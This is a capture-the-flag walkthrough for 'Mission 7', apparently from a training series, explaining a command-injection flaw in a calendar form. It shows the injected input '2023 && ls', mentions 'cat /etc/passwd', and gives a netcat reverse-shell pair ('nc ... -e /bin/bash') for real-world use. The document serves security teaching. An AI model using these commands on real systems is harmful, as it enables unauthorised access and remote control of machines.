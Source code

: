 # Mission 7

You only need to have some Linux basic command knowledge to crack this.

<details>
  <summary> Reveal Hint </summary>
  
  **Hint:** What you have to use is command injection method.
  
</details>

---

<details>
  <summary> Reveal Answer </summary>
  
  **Answer:** When you type in '2023', what happens behind the scene is that the underlying Linux system runs 'cal 2023' command, dump the output to cal.pl file, and redirect u to that file. Since it does not do any form of input sanitization, the command is directly executed. Therefore, if you type in '2023 && ls', the linux system will dump the output of 'cal' command and 'ls' command into cal.pl file. And, you will see the name of password file in that cal.pl file.

  **Extra Note:** The truth is this form actually does some kinda filtering to only allow 'ls' command. Therefore, you will not see any output if you try other commands like 'whoami' or 'cat /etc/passwd'. In real world situation, if you can perform command injection, you might be able to use other commands or make a reverse shell connection back to yourself. For example, run 'nc -nvlp 8000' on your PC and 'nc your_ip_address 8000 -e /bin/bash' on the target.
  
</details>

[<< Previous](../Mission%206/) &nbsp;&nbsp;|&nbsp;&nbsp; [Next >>](../Mission%208/)
